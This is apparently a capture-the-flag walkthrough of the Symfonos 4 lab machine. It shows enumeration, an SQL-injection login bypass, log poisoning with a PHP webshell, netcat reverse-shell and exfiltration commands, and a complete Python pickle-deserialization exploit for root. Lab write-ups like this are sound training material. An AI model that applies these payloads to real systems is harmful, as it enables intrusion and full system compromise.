 # SYMFONOS 4

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![840e1e97c9f94578c757d7fd3c689c58.png](./_resources/349aeda966314e6f8d09bcfcbd4a1774.png)
Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`
![76394ae6997be19f3c4bdee0cfaa2281.png](./_resources/c691da3575884fcda97e905576d39a7e.png)

`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`

![0975e9ea8b8186843034eaa7daa54ebf.png](./_resources/08373315ed444d79bf152bbab584aea8.png)

`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`
![c4583ba1c6c787bdd818294cb239fe8c.png](./_resources/9f42f9f33c034491b2b19c7fe9ddd362.png)

![1d8d6b711590211a52e3aa5a2e2ceb03.png](./_resources/24571ff2fe9540fb818164cacd9c1835.png)

### 1.3.2 Downloading and reading .log files
![a1c099d558fcf0a1d61e3f9a286db9df.png](./_resources/923829f107e945e6b7a41707a66f6ac7.png)
Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass
![f05f53f61c3c9f278839e192155f60d3.png](./_resources/e0c248c955274101b329a896edecc53c.png)

![dee386e1368f678594d530ea7b687f8f.png](./_resources/21ce6dcbe9d944b8b94b6071876fb837.png)

## 2.3 LFI (local file inclusion) - using bash to generate payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders

First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:

![1cd967f30e848870cd71ccee54ad1dd4.png](./_resources/785e5a8f11f04b97b2ab41efbbb11c09.png)

```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```

![32891abc8f6f2a29e90957c4a48df109.png](./_resources/011ff6b8d8414ce89ab3aefc33f7d4e3.png)

### 2.3.1 Reverse shell
https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
https://github.com/bayufedra/Tiny-PHP-Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```
![bac8f31f1dbeaf07360ad7e65eb809fd.png](./_resources/2a5ac06591814144bc918c386f6e46a0.png)

![551934b56670ffd80ea92ef3d7895822.png](./_resources/d9ca224d89814bf39e9e85fdba68f82f.png)
```
GET /sea.php?file=/../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```
![41c70d61d8a0b08a44cbe0cb4cd68fee.png](./_resources/fe456d74e92b491db68c287f7dbedab2.png)
Since we have nc or any other way on target, we can use it for get reverse shell:
![e905767d0ac3bad464d5a031d815d98e.png](./_resources/0e91b6820bd04a20900f2006aad65434.png)


# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

We can upload LinEnum on the target with python3 and the lib http.server:

![4d63d0022347ed21c3ba7df24c2522c0.png](./_resources/47d04bb3e5c543a4aae1de06412edae3.png)
![820b558de83960b7ef1042b7af6591e5.png](./_resources/ab77bd1365544d76b1c000435b81d303.png)

`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`

![ea043ac33ffccefe0be1ce5158627f79.png](./_resources/212f5442c5874501ada84e00a16a47f0.png)

## 3.1 Remote forwarding with ssh
https://www.ssh.com/academy/ssh/tunneling/example

We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`

![871d11e257ef55e125102ff953880218.png](./_resources/4bfaac7691be42f6a08e79d799f01959.png)

![df9bf8bf57207863f1663384960b0fec.png](./_resources/5a338a152d2b442590792a507f02c051.png)
We have a cookie with base64 encode.
Let's decode it:
![a2faa58b0d558074ef2d46ea76f628d9.png](./_resources/b8651e2ba33843d38c8ecee493831f13.png)

### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:
![34c46c4628137be5bc34b7590a2d1e39.png](./_resources/454c47d973674ee5a1c0fd8caca828c6.png)
This articles explain about exploit it:
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
https://www.synopsys.com/blogs/software-security/python-pickling/
https://blog.nelhage.com/2011/03/exploiting-pickle/
https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:
![ce0615a224028acc4f853e5964d9aec9.png](./_resources/48add1eec8404568aa483028b4b3ffb2.png)
Needs encode to base64:

![1581ff27f0379884666328b034bca78e.png](./_resources/0fe79ecb71274e4b8eaa09a7e72de099.png)]

And rooted:

![9ff866356191b6a5f8b5598ea0661897.png](./_resources/df8406e80fa1459399853773280f05ac.png)

### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:

![7f985f49d2994f98f434e810c1788f65.png](./_resources/24c617101aa14ecfbedb88e5539534f3.png)
 
